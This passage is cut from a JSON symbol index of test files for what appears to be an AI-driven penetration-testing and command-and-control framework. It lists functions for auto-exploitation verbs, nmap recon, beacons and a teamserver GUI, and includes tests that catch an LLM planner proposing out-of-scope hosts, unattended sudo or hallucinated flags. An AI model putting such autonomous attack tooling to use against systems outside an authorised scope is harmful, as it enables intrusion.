the agentic system prompt.", "kind": "function", "line": 1121, "name": "test_agent_prompt_includes_skills_block", "signature": "def test_agent_prompt_includes_skills_block(store, monkeypatch)"}, {"doc": "auto_pwn and friends must bind rhost to the intent target, not payload.", "kind": "function", "line": 1145, "name": "test_auto_verb_overrides_payload_target_for_the_run", "signature": "def test_auto_verb_overrides_payload_target_for_the_run()"}, {"doc": "Loop artefacts reach the world model through the bridge sync.", "kind": "function", "line": 1167, "name": "test_round_fuses_intel_into_world_model", "signature": "def test_round_fuses_intel_into_world_model(store, monkeypatch)"}, {"doc": "A 404/model error on one member retries the next, not the shell path.", "kind": "function", "line": 1180, "name": "test_agentic_falls_back_to_next_member", "signature": "def test_agentic_falls_back_to_next_member(store, monkeypatch)"}, {"doc": "Bootstrap must ingest the loop target's XML, not the payload rhost.", "kind": "function", "line": 1234, "name": "test_bootstrap_passes_target_to_auto_populate", "signature": "def test_bootstrap_passes_target_to_auto_populate(tmp_path, monkeypatch)"}, {"kind": "function", "line": 1252, "name": "test_auto_populate_verb_carries_target", "signature": "def test_auto_populate_verb_carries_target()"}, {"doc": "Unattended sudo proposals are dropped before they burn a step.", "kind": "function", "line": 1259, "name": "test_worker_llm_steps_filter_sudo", "signature": "def test_worker_llm_steps_filter_sudo(store, monkeypatch)"}, {"doc": "pwntomate must only process the requested target's XML.", "kind": "function", "line": 1289, "name": "test_pyautomate_filters_to_requested_target", "signature": "def test_pyautomate_filters_to_requested_target(tmp_path, monkeypatch)"}, {"doc": "lazy_addon run <name> <target> must use the positional target.", "kind": "function", "line": 1305, "name": "test_lazy_addon_positional_target_overrides_rhost", "signature": "def test_lazy_addon_positional_target_overrides_rhost(monkeypatch)"}, {"doc": "Exit teardown kills children, closes shells, pauses tasks, stops proxy.", "kind": "function", "line": 1328, "name": "test_shutdown_loop_runtime_cleans_everything", "signature": "def test_shutdown_loop_runtime_cleans_everything(store, monkeypatch)"}, {"kind": "function", "line": 1367, "name": "test_do_qa_runs_shutdown_and_dedupes_killall", "signature": "def test_do_qa_runs_shutdown_and_dedupes_killall(monkeypatch)"}, {"doc": "Recon steps route through lazynmap when a shell is bound.", "kind": "function", "line": 1389, "name": "test_lazynmap_routing_and_steps", "signature": "def test_lazynmap_routing_and_steps(store)"}, {"doc": "lazynmap must run with rhost bound to the explicit target.", "kind": "function", "line": 1437, "name": "test_lazynmap_overrides_payload_rhost_for_scope", "signature": "def test_lazynmap_overrides_payload_rhost_for_scope(store)"}, {"doc": "Interactive run_tee children keep stdin and the operator session.\n\nRegression pin: sudo prompts need the controlling terminal, so the\ninteractive path must not setsid the child nor drop its stdin.", "kind": "function", "line": 1462, "name": "test_run_tee_interactive_keeps_operator_terminal", "signature": "def test_run_tee_interactive_keeps_operator_terminal(monkeypatch)"}, {"doc": "Detached loop children drop stdin and start their own session.", "kind": "function", "line": 1496, "name": "test_run_tee_loop_context_detaches_child", "signature": "def test_run_tee_loop_context_detaches_child(monkeypatch)"}, {"doc": "Loop-context run_tee children must not read the operator terminal.", "kind": "function", "line": 1530, "name": "test_run_tee_stdin_devnull_in_loop_context", "signature": "def test_run_tee_stdin_devnull_in_loop_context()"}, {"doc": "A bounded run_tee must self-kill the child process group.", "kind": "function", "line": 1545, "name": "test_run_tee_thread_timeout_kills_child", "signature": "def test_run_tee_thread_timeout_kills_child()"}, {"doc": "nmap --block style hallucinations never reach execution.", "kind": "function", "line": 1566, "name": "test_plausibility_filter_drops_hallucinated_flags", "signature": "def test_plausibility_filter_drops_hallucinated_flags(store, monkeypatch)"}, {"doc": "The reusable harnesses in modules/tools must keep passing.", "kind": "function", "line": 1600, "name": "test_dev_smoke_tools_run_green", "signature": "def test_dev_smoke_tools_run_green()"}, {"kind": "function", "line": 1610, "name": "test_lazy_view_command_registered", "signature": "def test_lazy_view_command_registered()"}, {"kind": "function", "line": 97, "name": "_wait", "signature": "def _wait()"}, {"kind": "function", "line": 150, "name": "_fake_streaming", "signature": "def _fake_streaming(command, on_output, timeout_sec)"}, {"kind": "class", "line": 212, "name": "_FakeEngine", "signature": "class _FakeEngine"}, {"kind": "class", "line": 244, "name": "_Shell", "signature": "class _Shell"}, {"kind": "function", "line": 250, "name": "_observer", "signature": "def _observer(line)"}, {"kind": "function", "line": 281, "name": "_complete", "signature": "def _complete(self, prompt, max_tokens)"}, {"kind": "function", "line": 308, "name": "_exec", "signature": "def _exec(command)"}, {"kind": "function", "line": 497, "name": "scripted", "signature": "def scripted(model, prompt, max_tokens)"}, {"kind": "function", "line": 516, "name": "flaky", "signature": "def flaky(model, prompt, max_tokens)"}, {"kind": "class", "line": 582, "name": "_Stub", "signature": "class _Stub"}, {"kind": "class", "line": 599, "name": "_DummyHandler", "signature": "class _DummyHandler"}, {"kind": "class", "line": 648, "name": "_SlowEngine", "signature": "class _SlowEngine"}, {"kind": "class", "line": 699, "name": "_Engine", "signature": "class _Engine"}, {"kind": "class", "line": 737, "name": "_Completions", "signature": "class _Completions"}, {"kind": "function", "line": 793, "name": "_worker", "signature": "def _worker()"}, {"kind": "class", "line": 816, "name": "_StuckEngine", "signature": "class _StuckEngine"}, {"kind": "function", "line": 833, "name": "_interrupt", "signature": "def _interrupt()"}, {"kind": "class", "line": 855, "name": "_FakeEngine", "signature": "class _FakeEngine"}, {"kind": "function", "line": 868, "name": "_exit", "signature": "def _exit()"}, {"kind": "function", "line": 905, "name": "_round", "signature": "def _round(task_id_arg, workers, executor)"}, {"kind": "function", "line": 938, "name": "_round", "signature": "def _round(task_id_arg, workers, executor)"}, {"kind": "class", "line": 1151, "name": "_Shell", "signature": "class _Shell"}, {"kind": "class", "line": 1188, "name": "_BadCompletions", "signature": "class _BadCompletions"}, {"kind": "class", "line": 1192, "name": "_GoodCompletions", "signature": "class _GoodCompletions"}, {"kind": "function", "line": 1209, "name": "_resolve", "signature": "def _resolve(exclude)"}, {"kind": "function", "line": 1244, "name": "_executor", "signature": "def _executor(command)"}, {"kind": "class", "line": 1312, "name": "_Shell", "signature": "class _Shell"}, {"kind": "function", "line": 1315, "name": "_fake_run", "signature": "def _fake_run(command)"}, {"kind": "class", "line": 1354, "name": "_Proxy", "signature": "class _Proxy"}, {"kind": "function", "line": 1375, "name": "_fake_shutdown", "signature": "def _fake_shutdown(reason)"}, {"kind": "class", "line": 1402, "name": "_Shell", "signature": "class _Shell"}, {"kind": "class", "line": 1444, "name": "_Shell", "signature": "class _Shell"}, {"kind": "class", "line": 1478, "name": "_FakeProc", "signature": "class _FakeProc"}, {"kind": "class", "line": 1508, "name": "_FakeProc", "signature": "class _FakeProc"}, {"kind": "method", "line": 215, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 218, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"kind": "method", "line": 221, "name": "set_concurrency", "signature": "def set_concurrency(self, value)"}, {"kind": "method", "line": 224, "name": "orchestrate", "signature": "def orchestrate(self)"}, {"kind": "method", "line": 245, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}, {"kind": "method", "line": 585, "name": "send_error", "signature": "def send_error(self, code, message)"}, {"kind": "method", "line": 600, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 651, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 655, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"kind": "method", "line": 658, "name": "set_concurrency", "signature": "def set_concurrency(self, value)"}, {"kind": "method", "line": 661, "name": "orchestrate", "signature": "def orchestrate(self)"}, {"kind": "method", "line": 702, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 706, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"kind": "method", "line": 709, "name": "set_concurrency", "signature": "def set_concurrency(self, value)"}, {"kind": "method", "line": 712, "name": "orchestrate", "signature": "def orchestrate(self)"}, {"kind": "method", "line": 738, "name": "create", "signature": "def create(self)"}, {"kind": "method", "line": 819, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 823, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"kind": "method", "line": 826, "name": "set_concurrency", "signature": "def set_concurrency(self, value)"}, {"kind": "method", "line": 829, "name": "orchestrate", "signature": "def orchestrate(self)"}, {"kind": "method", "line": 858, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 862, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"kind": "method", "line": 865, "name": "set_concurrency", "signature": "def set_concurrency(self, value)"}, {"kind": "method", "line": 1152, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 1155, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}, {"kind": "method", "line": 1189, "name": "create", "signature": "def create(self)"}, {"kind": "method", "line": 1193, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 1196, "name": "create", "signature": "def create(self)"}, {"kind": "method", "line": 1355, "name": "stop", "signature": "def stop(self)"}, {"kind": "method", "line": 1403, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}, {"kind": "method", "line": 1445, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 1448, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}, {"kind": "method", "line": 1479, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 1485, "name": "wait", "signature": "def wait(self, timeout)"}, {"kind": "method", "line": 1509, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 1515, "name": "wait", "signature": "def wait(self, timeout)"}]}, {"doc": "Token-level streaming: factory, pool deltas, agent reassembly.  The stream stage is exercised with stubbed backends so no network is touched; the agent test drives the real ``AgentRunner._stream_call`` with an OpenAI-compatible chunk script, including split tool calls.", "id": "tests/test_lazy_streaming.py", "kind": "module", "label": "test_lazy_streaming.py", "language": "py", "sha256": "b9937b0735de9394", "symbol_count": 17, "symbols": [{"kind": "function", "line": 13, "name": "_sandbox", "signature": "def _sandbox(tmp_path, monkeypatch)"}, {"doc": "Chunks flow to the sink; error chunks fall back to complete().", "kind": "function", "line": 20, "name": "test_stream_complete_collects_deltas_and_falls_back", "signature": "def test_stream_complete_collects_deltas_and_falls_back(monkeypatch)"}, {"doc": "LlmPool routes through stream_complete and forwards every delta.", "kind": "function", "line": 48, "name": "test_pool_forwards_deltas_when_stage_on", "signature": "def test_pool_forwards_deltas_when_stage_on(tmp_path, monkeypatch)"}, {"doc": "With the stage off the pool uses the plain completion path.", "kind": "function", "line": 72, "name": "test_pool_stays_unstreamed_when_stage_off", "signature": "def test_pool_stays_unstreamed_when_stage_off(tmp_path, monkeypatch)"}, {"doc": "The agent stream call rebuilds split tool calls and emits deltas.", "kind": "function", "line": 96, "name": "test_agent_streaming_reassembles_tool_calls_and_reports_deltas", "signature": "def test_agent_streaming_reassembles_tool_calls_and_reports_deltas()"}, {"kind": "class", "line": 24, "name": "_Backend", "signature": "class _Backend"}, {"kind": "class", "line": 37, "name": "_Broken", "signature": "class _Broken"}, {"kind": "function", "line": 57, "name": "_stream", "signature": "def _stream(model, prompt, max_tokens, on_delta)"}, {"kind": "function", "line": 80, "name": "_stream", "signature": "def _stream()"}, {"kind": "function", "line": 84, "name": "_plain", "signature": "def _plain()"}, {"kind": "class", "line": 100, "name": "_Delta", "signature": "class _Delta"}, {"kind": "class", "line": 106, "name": "_Completions", "signature": "class _Completions"}, {"kind": "method", "line": 27, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 40, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 101, "name": "__init__", "signature": "def __init__(self, content, reasoning, tool_calls)"}, {"kind": "method", "line": 107, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 110, "name": "create", "signature": "def create(self)"}]}, {"doc": "Worker safety: step sanitizer, task-wide dedupe, sudo skip, worker pool.  These tests pin the behaviors the live engagement surfaced: the planner LLM proposing target-less or foreign-host network commands, the same verb replayed under a new intent, interactive sudo inside an unattended loop, and one-shot workers losing their shells between rounds.", "id": "tests/test_lazy_worker_safety.py", "kind": "module", "label": "test_lazy_worker_safety.py", "language": "py", "sha256": "1b5516f72c826fb2", "symbol_count": 12, "symbols": [{"doc": "Sandbox the lazy store and orchestrator config for a round.", "kind": "function", "line": 15, "name": "payload_store", "signature": "def payload_store(tmp_path, monkeypatch)"}, {"kind": "function", "line": 28, "name": "_engine", "signature": "def _engine(tmp_path, monkeypatch)"}, {"kind": "function", "line": 37, "name": "_worker", "signature": "def _worker(loop, engine, task_id, name)"}, {"doc": "Foreign hosts move to the target; target-less scans gain it.", "kind": "function", "line": 53, "name": "test_sanitizer_retargets_and_repairs_commands", "signature": "def test_sanitizer_retargets_and_repairs_commands(tmp_path, monkeypatch)"}, {"doc": "A command run under intent #1 is never replayed under intent #2.", "kind": "function", "line": 70, "name": "test_worker_dedupes_commands_already_executed_for_task", "signature": "def test_worker_dedupes_commands_already_executed_for_task(tmp_path, monkeypatch)"}, {"doc": "A tool failing on non-interactive sudo is skipped, not an error.", "kind": "function", "line": 88, "name": "test_worker_skips_sudo_when_unavailable", "signature": "def test_worker_skips_sudo_when_unavailable(tmp_path, monkeypatch)"}, {"doc": "A supplied pool keeps the same workers and shells across rounds.", "kind": "function", "line": 105, "name": "test_run_round_reuses_worker_pool", "signature": "def test_run_round_reuses_worker_pool(payload_store, monkeypatch)"}, {"doc": "Alias and wrapper forms hide sudo; the detector sees through them.", "kind": "function", "line": 140, "name": "test_needs_sudo_detects_wrappers_and_segments", "signature": "def test_needs_sudo_detects_wrappers_and_segments(tmp_path, monkeypatch)"}, {"doc": "The lsof alias expands to sudo; it is skipped before any execution.", "kind": "function", "line": 153, "name": "test_worker_skips_sudo_alias_before_execution", "signature": "def test_worker_skips_sudo_alias_before_execution(tmp_path, monkeypatch)"}, {"doc": "With working passwordless sudo the command executes normally.", "kind": "function", "line": 175, "name": "test_worker_runs_sudo_alias_when_passwordless_available", "signature": "def test_worker_runs_sudo_alias_when_passwordless_available(tmp_path, monkeypatch)"}, {"kind": "function", "line": 95, "name": "executor", "signature": "def executor(command)"}, {"kind": "function", "line": 122, "name": "_fake_execute", "signature": "def _fake_execute(self, node, executor, timeout_sec)"}]}, {"doc": "Tests for lazygui backend services.  Covers Backend, TeamserverBackend, TeamserverCredentials, BackendStatus, BackendDescriptor, and backend signal contracts.", "id": "tests/test_lazygui_backend.py", "kind": "module", "label": "test_lazygui_backend.py", "language": "py", "sha256": "8389e3d9c913fe4e", "symbol_count": 59, "symbols": [{"doc": "BackendDescriptor is a read-only identifier for backends.", "kind": "class", "line": 26, "name": "TestBackendDescriptor", "signature": "class TestBackendDescriptor"}, {"doc": "BackendStatus enum lifecycle states.", "kind": "class", "line": 41, "name": "TestBackendStatus", "signature": "class TestBackendStatus"}, {"doc": "TeamserverCredentials immutable connection params.", "kind": "class", "line": 52, "name": "TestTeamserverCredentials", "signature": "class TestTeamserverCredentials"}, {"doc": "Backend emits Qt signals with correct types.", "kind": "class", "line": 77, "name": "TestBackendSignals", "signature": "class TestBackendSignals"}, {"doc": "Minimal concrete backend for testing the abstract contract.", "kind": "class", "line": 151, "name": "ConcreteBackend", "signature": "class ConcreteBackend(Backend)"}, {"doc": "TeamserverBackend can be constructed with valid credentials.", "kind": "class", "line": 173, "name": "TestTeamserverBackendConstruction", "signature": "class TestTeamserverBackendConstruction"}, {"doc": "TeamserverBackend correctly parses API payloads.", "kind": "class", "line": 206, "name": "TestTeamserverPayloadParsing", "signature": "class TestTeamserverPayloadParsing"}, {"doc": "TeamserverBackend start/stop contract.", "kind": "class", "line": 302, "name": "TestTeamserverBackendLifecycle", "signature": "class TestTeamserverBackendLifecycle"}, {"doc": "Topology construction and comparison.", "kind": "class", "line": 328, "name": "TestTopologyDataContract", "signature": "class TestTopologyDataContract"}, {"doc": "Graph topology is built from /api/data payload fields.", "kind": "class", "line": 344, "name": "TestTopologyBuilderFromPayload", "signature": "class TestTopologyBuilderFromPayload"}, {"kind": "method", "line": 29, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 35, "name": "test_immutable", "signature": "def test_immutable(self)"}, {"kind": "method", "line": 44, "name": "test_values", "signature": "def test_values(self)"}, {"kind": "method", "line": 55, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 67, "name": "test_default_tls", "signature": "def test_default_tls(self)"}, {"kind": "method", "line": 71, "name": "test_immutable", "signature": "def test_immutable(self)"}, {"kind": "method", "line": 80, "name": "test_signals_exist", "signature": "def test_signals_exist(self)"}, {"kind": "method", "line": 93, "name": "test_initial_status_is_disconnected", "signature": "def test_initial_status_is_disconnected(self)"}, {"kind": "method", "line": 97, "name": "test_status_transition", "signature": "def test_status_transition(self)"}, {"kind": "method", "line": 104, "name": "test_status_no_duplicate_emit", "signature": "def test_status_no_duplicate_emit(self)"}, {"kind": "method", "line": 113, "name": "test_descriptor_read_only", "signature": "def test_descriptor_read_only(self)"}, {"kind": "method", "line": 118, "name": "test_known_sessions_defaults", "signature": "def test_known_sessions_defaults(self)"}, {"kind": "method", "line": 123, "name": "test_known_topology_default", "signature": "def test_known_topology_default(self)"}, {"kind": "method", "line": 129, "name": "test_known_campaigns_default", "signature": "def test_known_campaigns_default(self)"}, {"kind": "method", "line": 133, "name": "test_world_model_default", "signature": "def test_world_model_default(self)"}, {"kind": "method", "line": 138, "name": "test_session_state_default", "signature": "def test_session_state_default(self)"}, {"kind": "method", "line": 146, "name": "_make_backend", "signature": "def _make_backend()"}, {"kind": "method", "line": 154, "name": "start", "signature": "def start(self)"}, {"kind": "method", "line": 157, "name": "stop", "signature": "def stop(self)"}, {"kind": "method", "line": 160, "name": "send_command", "signature": "def send_command(self, command, target_session)"}, {"kind": "method", "line": 163, "name": "refresh", "signature": "def refresh(self)"}, {"kind": "method", "line": 166, "name": "resize_terminal", "signature": "def resize_terminal(self, columns, rows)"}, {"kind": "method", "line": 169, "name": "feed_terminal_input", "signature": "def feed_terminal_input(self, data)"}, {"kind": "method", "line": 176, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 184, "name": "test_construction_with_parent", "signature": "def test_construction_with_parent(self)"}, {"kind": "method", "line": 191, "name": "test_build_url", "signature": "def test_build_url(self)"}, {"kind": "method", "line": 198, "name": "test_build_url_no_trailing_slash", "signature": "def test_build_url_no_trailing_slash(self)"}, {"kind": "method", "line": 209, "name": "test_update_from_empty_payload", "signature": "def test_update_from_empty_payload(self)"}, {"kind": "method", "line": 216, "name": "test_non_mapping_payload", "signature": "def test_non_mapping_payload(self)"}, {"kind": "method", "line": 223, "name": "test_parse_graph_nodes_from_valid_payload", "signature": "def test_parse_graph_nodes_from_valid_payload(self)"}, {"kind": "method", "line": 242, "name": "test_parse_graph_edges_from_valid_payload", "signature": "def test_parse_graph_edges_from_valid_payload(self)"}, {"kind": "method", "line": 259, "name": "test_parse_empty_graph_payload", "signature": "def test_parse_empty_graph_payload(self)"}, {"kind": "method", "line": 267, "name": "test_update_operator", "signature": "def test_update_operator(self)"}, {"kind": "method", "line": 285, "name": "test_update_operator_no_username", "signature": "def test_update_operator_no_username(self)"}, {"kind": "method", "line": 294, "name": "test_update_sessions_empty", "signature": "def test_update_sessions_empty(self)"}, {"kind": "method", "line": 305, "name": "test_stop_without_start", "signature": "def test_stop_without_start(self)"}, {"kind": "method", "line": 312, "name": "test_stop_sets_disconnected", "signature": "def test_stop_sets_disconnected(self)"}, {"kind": "method", "line": 321, "name": "test_send_command_does_not_raise", "signature": "def test_send_command_does_not_raise(self)"}, {"kind": "method", "line": 331, "name": "test_construct_and_compare", "signature": "def test_construct_and_compare(self)"}, {"kind": "method", "line": 338, "name": "test_none_converted", "signature": "def test_none_converted(self)"}, {"kind": "method", "line": 347, "name": "make_backend", "signature": "def make_backend(self)"}, {"kind": "method", "line": 354, "name": "test_builds_c2_node", "signature": "def test_builds_c2_node(self)"}, {"kind": "method", "line": 362, "name": "test_builds_beacon_nodes", "signature": "def test_builds_beacon_nodes(self)"}, {"kind": "method", "line": 379, "name": "test_builds_edges_c2_to_beacon", "signature": "def test_builds_edges_c2_to_beacon(self)"}, {"kind": "method", "line": 396, "name": "test_builds_host_nodes_from_discovered", "signature": "def test_builds_host_nodes_from_discovered(self)"}, {"kind": "method", "line": 412, "name": "test_builds_port_nodes", "signature": "def test_builds_port_nodes(self)"}, {"kind": "method", "line": 428, "name": "test_builds_connected_hosts", "signature": "def test_builds_connected_hosts(self)"}, {"kind": "method", "line": 439, "name": "test_topology_emitted_on_change", "signature": "def test_topology_emitted_on_change(self)"}, {"kind": "method", "line": 455, "name": "test_topology_not_emitted_on_no_change", "signature": "def test_topology_not_emitted_on_no_change(self)"}]}, {"doc": "Tests for lazygui graph widget contracts.  Covers GraphNodeItem, GraphEdgeItem, GraphScene, GraphView, topology rendering and force layout behaviour.", "id": "tests/test_lazygui_graph_widget.py", "kind": "module", "label": "test_lazygui_graph_widget.py", "language": "py", "sha256": "460b470725f1089f", "symbol_count": 51, "symbols": [{"kind": "function", "line": 36, "name": "_get_qapp", "signature": "def _get_qapp()"}, {"doc": "Node colour resolution rules.", "kind": "class", "line": 43, "name": "TestColorResolution", "signature": "class TestColorResolution"}, {"doc": "Node radius resolution rules.", "kind": "class", "line": 79, "name": "TestRadiusResolution", "signature": "class TestRadiusResolution"}, {"doc": "Color map contains all required node type colours.", "kind": "class", "line": 106, "name": "TestColorMap", "signature": "class TestColorMap"}, {"doc": "GraphNodeItem renders a graph node with label and callbacks.", "kind": "class", "line": 114, "name": "TestGraphNodeItem", "signature": "class TestGraphNodeItem"}, {"doc": "GraphEdgeItem connects two node items.", "kind": "class", "line": 181, "name": "TestGraphEdgeItem", "signature": "class TestGraphEdgeItem"}, {"doc": "GraphScene manages nodes, edges and force layout.", "kind": "class", "line": 212, "name": "TestGraphScene", "signature": "class TestGraphScene"}, {"doc": "GraphView wraps scene with zoom, pan and physics.", "kind": "class", "line": 307, "name": "TestGraphView", "signature": "class TestGraphView"}, {"doc": "Full integration: topology -> view -> scene.", "kind": "class", "line": 333, "name": "TestGraphViewWithDatabaseFixture", "signature": "class TestGraphViewWithDatabaseFixture"}, {"doc": "GraphNodeItem renders icons correctly.", "kind": "class", "line": 360, "name": "TestGraphNodeItemWithIcon", "signature": "class TestGraphNodeItemWithIcon"}, {"kind": "method", "line": 46, "name": "test_c2_color", "signature": "def test_c2_color(self)"}, {"kind": "method", "line": 50, "name": "test_beacon_color", "signature": "def test_beacon_color(self)"}, {"kind": "method", "line": 54, "name": "test_host_color", "signature": "def test_host_color(self)"}, {"kind": "method", "line": 58, "name": "test_port_color", "signature": "def test_port_color(self)"}, {"kind": "method", "line": 62, "name": "test_windows_os_hint", "signature": "def test_windows_os_hint(self)"}, {"kind": "method", "line": 66, "name": "test_linux_os_hint", "signature": "def test_linux_os_hint(self)"}, {"kind": "method", "line": 70, "name": "test_macos_os_hint", "signature": "def test_macos_os_hint(self)"}, {"kind": "method", "line": 74, "name": "test_unknown_default", "signature": "def test_unknown_default(self)"}, {"kind": "method", "line": 82, "name": "test_c2_radius", "signature": "def test_c2_radius(self)"}, {"kind": "method", "line": 86, "name": "test_beacon_radius", "signature": "def test_beacon_radius(self)"}, {"kind": "method", "line": 91, "name": "test_host_radius", "signature": "def test_host_radius(self)"}, {"kind": "method", "line": 96, "name": "test_port_radius", "signature": "def test_port_radius(self)"}, {"kind": "method", "line": 101, "name": "test_default_radius", "signature": "def test_default_radius(self)"}, {"kind": "method", "line": 109, "name": "test_all_keys_present", "signature": "def test_all_keys_present(self)"}, {"kind": "method", "line": 117, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 127, "name": "test_identifiers", "signature": "def test_identifiers(self)"}, {"kind": "method", "line": 134, "name": "test_selection_behaviour", "signature": "def test_selection_behaviour(self)"}, {"kind": "method", "line": 144, "name": "test_callback_on_selected", "signature": "def test_callback_on_selected(self)"}, {"kind": "method", "line": 157, "name": "test_callback_on_context_menu", "signature": "def test_callback_on_context_menu(self)"}, {"kind": "method", "line": 173, "name": "test_node_without_callbacks_does_not_raise", "signature": "def test_node_without_callbacks_does_not_raise(self)"}, {"kind": "method", "line": 184, "name": "test_construction_with_nodes", "signature": "def test_construction_with_nodes(self)"}, {"kind": "method", "line": 198, "name": "test_update_position", "signature": "def test_update_position(self)"}, {"kind": "method", "line": 215, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 221, "name": "test_set_topology_with_data", "signature": "def test_set_topology_with_data(self)"}, {"kind": "method", "line": 235, "name": "test_set_empty_topology", "signature": "def test_set_empty_topology(self)"}, {"kind": "method", "line": 243, "name": "test_force_layout_single_node", "signature": "def test_force_layout_single_node(self)"}, {"kind": "method", "line": 252, "name": "test_selected_node_id_none_when_empty", "signature": "def test_selected_node_id_none_when_empty(self)"}, {"kind": "method", "line": 258, "name": "test_physics_completion", "signature": "def test_physics_completion(self)"}, {"kind": "method", "line": 273, "name": "test_physics_stops_without_nodes", "signature": "def test_physics_stops_without_nodes(self)"}, {"kind": "method", "line": 280, "name": "test_node_selected_signal", "signature": "def test_node_selected_signal(self)"}, {"kind": "method", "line": 289, "name": "test_node_context_menu_signal", "signature": "def test_node_context_menu_signal(self)"}, {"kind": "method", "line": 310, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 316, "name": "test_set_topology", "signature": "def test_set_topology(self)"}, {"kind": "method", "line": 325, "name": "test_fit_to_content", "signature": "def test_fit_to_content(self)"}, {"kind": "method", "line": 336, "name": "test_full_pipeline", "signature": "def test_full_pipeline(self)"}, {"kind": "method", "line": 363, "name": "test_node_with_icon", "signature": "def test_node_with_icon(self)"}, {"kind": "method", "line": 369, "name": "test_hover_behavior", "signature": "def test_hover_behavior(self)"}, {"kind": "method", "line": 375, "name": "test_movable_flag", "signature": "def test_movable_flag(self)"}, {"kind": "function", "line": 149, "name": "_cb", "signature": "def _cb(nid)"}, {"kind": "function", "line": 163, "name": "_cb", "signature": "def _cb(nid, pos)"}, {"kind": "function", "line": 296, "name": "_capture", "signature": "def _capture(nid, pos)"}]}, {"doc": "Tests for lazygui domain models.  Covers GraphNode, GraphEdge, Topology, BeaconResult, DashboardPayload, CampaignSummary, EventRecord, Session, Listener, Operator, and their behavioural contracts.", "id": "tests/test_lazygui_models.py", "kind": "module", "label": "test_lazygui_models.py", "language": "py", "sha256": "ac70ab5c43ad66e0", "symbol_count": 42, "symbols": [{"doc": "GraphNode contract: identifier, label, type, colour and metadata.", "kind": "class", "line": 30, "name": "TestGraphNode", "signature": "class TestGraphNode"}, {"doc": "GraphEdge contract: source, target, label, type and colour.", "kind": "class", "line": 74, "name": "TestGraphEdge", "signature": "class TestGraphEdge"}, {"doc": "Topology contract: collection of nodes and edges.", "kind": "class", "line": 105, "name": "TestTopology", "signature": "class TestTopology"}, {"doc": "BeaconResult contract: command execution result from a beacon.", "kind": "class", "line": 143, "name": "TestBeaconResult", "signature": "class TestBeaconResult"}, {"doc": "DashboardPayload contract: aggregated dashboard snapshot.", "kind": "class", "line": 196, "name": "TestDashboardPayload", "signature": "class TestDashboardPayload"}, {"doc": "CampaignSummary contract: campaign status from backend.", "kind": "class", "line": 221, "name": "TestCampaignSummary", "signature": "class TestCampaignSummary"}, {"doc": "EventRecord contract: timestamped log entry.", "kind": "class", "line": 256, "name": "TestEventRecord", "signature": "class TestEventRecord"}, {"doc": "Session model contract.", "kind": "class", "line": 280, "name": "TestSessionModel", "signature": "class TestSessionModel"}, {"doc": "BackendKind enum contract.", "kind": "class", "line": 303, "name": "TestBackendKind", "signature": "class TestBackendKind"}, {"doc": "EventLevel enum contract.", "kind": "class", "line": 314, "name": "TestEventLevel", "signature": "class TestEventLevel"}, {"kind": "method", "line": 33, "name": "test_minimal_construction", "signature": "def test_minimal_construction(self)"}, {"kind": "method", "line": 41, "name": "test_full_construction", "signature": "def test_full_construction(self)"}, {"kind": "method", "line": 56, "name": "test_default_metadata", "signature": "def test_default_metadata(self)"}, {"kind": "method", "line": 61, "name": "test_equality", "signature": "def test_equality(self)"}, {"kind": "method", "line": 68, "name": "test_immutable", "signature": "def test_immutable(self)"}, {"kind": "method", "line": 77, "name": "test_construction", "signature": "def test_construction(self)"}, {"kind": "method", "line": 91, "name": "test_defaults", "signature": "def test_defaults(self)"}, {"kind": "method", "line": 97, "name": "test_equality", "signature": "def test_equality(self)"}, {"kind": "method", "line": 108, "name": "test_empty_topology", "signature": "def test_empty_topology(self)"}, {"kind": "method", "line": 115, "name": "test_empty_classmethod", "signature": "def test_empty_classmethod(self)"}, {"kind": "method", "line": 120, "name": "test_populated_topology", "signature": "def test_populated_topology(self)"}, {"kind": "method", "line": 130, "name": "test_equality", "signature": "def test_equality(self)"}, {"kind": "method", "line": 137, "name": "test_empty_list_keywords", "signature": "def test_empty_list_keywords(self)"}, {"kind": "method", "line": 146, "name": "test_minimal_construction", "signature": "def test_minimal_construction(self)"}, {"kind": "method", "line": 154, "name": "test_full_construction", "signature": "def test_full_construction(self)"}, {"kind": "method", "line": 174, "name": "test_equality", "signature": "def test_equality(self)"}, {"kind": "method", "line": 181, "name": "test_empty_fields_default_to_empty_string", "signature": "def test_empty_fields_default_to_empty_string(self)"}, {"kind": "method", "line": 199, "name": "test_defaults", "signature": "def test_defaults(self)"}, {"kind": "method", "line": 206, "name": "test_populated", "signature": "def test_populated(self)"}, {"kind": "method", "line": 213, "name": "test_equality", "signature": "def test_equality(self)"}, {"kind": "method", "line": 224, "name": "test_defaults", "signature": "def test_defaults(self)"}, {"kind": "method", "line": 234, "name": "test_with_counts", "signature": "def test_with_counts(self)"}, {"kind": "method", 